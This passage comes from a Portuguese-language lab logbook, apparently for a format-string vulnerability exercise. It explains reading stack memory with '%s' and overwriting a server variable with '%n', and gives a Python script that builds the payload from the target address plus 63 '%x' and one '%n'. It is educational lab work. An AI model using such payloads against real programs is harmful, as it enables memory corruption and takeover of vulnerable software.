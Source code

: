 ![Tarefa 2.B](/images/logbook7-tarefa2b.png)

* Esta abordagem resultou porque o especificador `%s`, escrito diretamente na *string* de formatação, fez com que a chamada à função `printf` imprimisse o valor armazenado no endereço de memória presente na posição da *stack* correspondente ao especificador `%s`, isto é, na 64ª posição, que, conforme determinado anteriormente, é o início do conteúdo da variável `buf` (que, neste caso, continha o número/endereço **0x080b4008**)

## Tarefa 3: Modificar a Memória do Programa do Servidor

### Tarefa 3.A: Mudar o valor para um valor diferente

* De acordo com a informação impressa pelo servidor, o endereço da variável a alterar é **0x080e5068**

* Ora, para alterar o conteúdo armazenado num endereço de memória, basta colocar esse endereço de memória na *stack* e usar um especificador `%n` para escrever o número de caracteres impressos até ao momento nesse mesmo endereço

* Então, de forma semelhante ao processo anterior, editamos o ficheiro `build_string.py` para escrever, de forma *little-endian*, o número **0x080e5068** - correspondente ao endereço da variável a alterar - no início do ficheiro `badfile`, seguindo-o de 63 especificadores `%x` e 1 especificador `%n`, resultando no código seguinte

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to construct a string s with
#   63 of "%x", concatenated with a "%n"
s = "%x" * 63 + "%n"

```